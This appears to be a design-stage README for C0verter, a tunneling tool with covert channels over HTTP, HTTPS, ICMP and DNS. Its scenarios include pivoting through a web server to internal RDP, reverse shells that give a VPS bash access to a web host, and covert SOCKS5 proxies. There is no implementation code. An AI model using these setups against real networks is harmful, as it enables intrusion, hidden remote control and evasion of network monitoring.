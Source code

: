 # C0verter
**Currently just a design.**

Integrated tunneling & proxy tool with covert channel support, transmitting TCP/UDP over IPv6,ICMP,DNS,HTTP,HTTPS.

## Usage
C0verter automatically determines whether to work as server or client by checking the `--in` argument. 
Root previlige is needed for server to listen on some specific ports.

Args:
- in: address inside the tunnel, local or remote address.
- out: target port outside the tunnel, will use command-line IO if not defined, will work as proxy if `--proxy` is set.
- covert: which type of covert channel to use, none as default.
- proxy: use socks5(?) proxy, set to false by default.

Usage:
```shellscript
C0 --in TunnelAddr [--out TargetAddr] [--covert http/icmp/dns] [--proxy]
C0 -i TunnelAddr [-o TargetAddr] [-c http/icmp/dns] [-p]
C0 -i TunnelAddr [-o TargetAddr] -c https -crt serveer.crt -key server.key [-p/--proxy]
```

Examples:
```shellscript
C0 -i localhost:8080 -o web:80 
C0 -i vps:5000 -o internal:3389 --covert https --crt server.crt --key server.key
C0 -i :5000 -o cmd.exe
```

## Scenarios

### Vps-http->Web-rdp->Internal
HTTP covert channel
```shellscript
VPS:C0 -i web:5000 -o :3388 -c http
Web:C0 -i :5000 -o internal:3389 -c http
```
- HTTP隧道可以任意方向
- 需要指定Tunnel端口

### Vps<-icmp-Web-rdp->Internal
ICMP covert channel
```shellscript
VPS:C0 -i web: -o :3388 -c icmp
Web:C0 -i vps: -o internal:3389 -c icmp
```
- ICMP隧道一般需要由Web主动连接VPS（考虑NAT和防火墙）
- 无需指定Tunnel端口（？）
- 需要指定Web公网IP

### Transfer Port
```shellscript
Web:C0 -i :8080 -o :3389
```
- 本地端口转发
- 8080进入的TCP/UDP流量被转发至3389

### Shell
Raw channel
```shellscript
VPS:C0 -i web:8080  
Web:C0 -i :8080 -o bash
```
- VPS上Target留空，表示使用命令行IO
- Web上Target使用程序名，使用标准IO

### Reverse Shell
HTTPS covert channel
```shellscript
VPS:C0 -i :3690 -c https --crt server.crt --key server.key
Web:C0 -i vps:3690 -o bash -c https
```
- VPS上Target留空，表示使用命令行IO
- Web上Target使用程序名，使用命令行IO
- HTTPS隧道需要通过参数提供证书文件，不可硬编码

### Proxy
HTTP covert channel, work as proxy
```shellscript
VPS:C0 -i web:3690 -o :3691 -c http --proxy 
Web:C0 -i :3691 -c http --proxy
```
- VPS上使用3691作为socks5代理
- Web上Target留空，并作为proxy工作

### Reverse Proxy
DNS covert channel, work as proxy
```shellscript
VPS:C0 -i : -o :3691 -c dns --proxy
Web:C0 -i vps: -c dns --proxy
```
- VPS上使用3691作为socks5代理
- Web上Target留空，作为proxy工作
- DNS隧道端口默认53，无需指定


## Disclaimer

**该工具仅用于学习交流，恶意使用该工具造成的损失与开发者无关。**

**C0verter is for educational purposes only. Developers are not responsible for losses and damage caused by misuse of this tool.**

